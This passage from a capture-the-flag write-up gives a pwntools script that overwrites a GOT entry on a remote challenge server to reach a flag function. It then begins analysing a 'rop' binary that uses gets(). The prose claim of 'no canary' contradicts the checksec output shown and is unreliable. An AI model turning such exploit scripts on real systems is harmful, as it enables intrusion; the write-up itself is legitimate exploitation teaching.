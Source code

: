 The solution is pretty straightforward with ```pwntools```. Running the following script yields the flag.
```python
#!/usr/bin/env python3

from pwn import *


target = remote('forever.isss.io', 1307)
#target = gdb.debug('./getmygot', '''
#                   b *0x0000000000401239
#                   continue
#                   ''')

e = ELF('./getmygot')

payload1 = str(e.got['puts'])
payload2 = str(e.symbols['get_flag'])

target.recvline()
target.recvline()
target.sendline(payload1)
target.sendline(payload2)

target.interactive()
```

### rop

First we need to check the file type.
```
rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=a21aca21e741cb489157fd548b8cad8de5f8a439, for GNU/Linux 3.2.0, not stripped
```

Then the file protections.
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1882 Symbols	  No	0		0		rop
```

Running the program writes a prompt to the screen, takes input, and then echoes it back.

#### Reversing

The program is very straightforward and simple uses our favorite function ```gets()``` and saves it to a variable. With no canary, gaining control of rip is as simple as overwriting rip.
```
00401d65  int64_t main()

00401d78      _IO_puts("hey bb")
00401d84      _IO_puts("whats ur name")
00401d95      void var_48
00401d95      _IO_gets(&var_48)
00401dad      _IO_printf("hey %s\n", 0)
00401db9      _IO_puts("see ya!")
00401dc4      return 0
```

